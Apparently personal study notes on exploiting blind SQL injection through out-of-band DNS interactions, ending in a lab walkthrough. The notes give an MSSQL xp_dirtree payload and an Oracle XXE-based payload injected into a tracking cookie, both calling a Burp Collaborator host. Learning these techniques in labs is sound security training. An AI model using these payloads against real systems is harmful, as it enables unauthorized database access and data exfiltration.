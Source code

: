 # Exploiting blind SQL injection using out-of-band (OAST) techniques
- suppose that the application carries out the same SQL query, but does it asynchronously
- The application continues processing the user's request in the original thread
- and uses another thread to execute a SQL query using the tracking cookie
- query is still vulnerable to SQL injection, however none of the techniques described so far will work
- the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query
- it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control
- these can be triggered conditionally, depending on an injected condition
- to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself
- variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service).
- This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems
- easiest and most reliable way to use out-of-band techniques is using Burp Collaborator
- This is a server that provides custom implementations of various network services (including DNS)
- allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application
- techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server
```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```
- This will cause the database to perform a lookup for the following domain
```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```
# Lab: Blind SQL injection with out-of-band interaction
- lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie
- SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain
# Goal
- exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.
# Solving the Lab
```
2ilromf3sqxm7kvafcdz0q3dh4nvblza.oastify.com
```
-  use Burp Suite to intercept and modify the request containing the TrackingId cookie
-  Modify the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server
```
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://2ilromf3sqxm7kvafcdz0q3dh4nvblza.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```
- and we solved the lab
